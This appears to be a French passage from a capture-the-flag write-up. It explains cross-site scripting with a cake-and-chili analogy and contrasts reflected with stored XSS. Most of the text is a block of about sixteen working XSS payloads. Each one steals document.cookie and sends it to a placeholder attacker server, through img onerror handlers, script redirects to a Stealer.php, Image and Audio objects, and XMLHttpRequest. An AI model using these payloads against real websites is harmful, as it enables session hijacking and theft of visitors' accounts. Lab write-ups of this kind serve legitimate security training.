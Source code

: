 Nous allons faire une faire une attaque xss.

Mais avant tout c'est quoi une XSS :
Imaginez un délicieux gâteau au chocolat, mais avec un ingrédient surprise caché à l'intérieur - du piment !

L'attaque XSS est un peu comme ça. Un individu malveillant glisse du code malveillant (le piment) dans un site web qui semble normal.  Quand on visite le site (on mange le gâteau), notre navigateur exécute ce code sans méfiance, et paf!  Nos informations peuvent être volées ou on peut être redirigé vers un faux site (comme si on avait mal au ventre à cause du piment).

Il existe deux façons courantes de cacher le piment :

XSS réfléchi : L'individu malveillant envoie un lien piégé. Quand on clique dessus, le code malveillant est renvoyé par le site et exécuté par notre navigateur.

XSS stocké : L'individu malveillant injecte le code directement dans le site web, affectant tous les visiteurs.

![img_xss](../assets/uploads/2024/2024-htb-headless/xss.webp)

```bash
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
```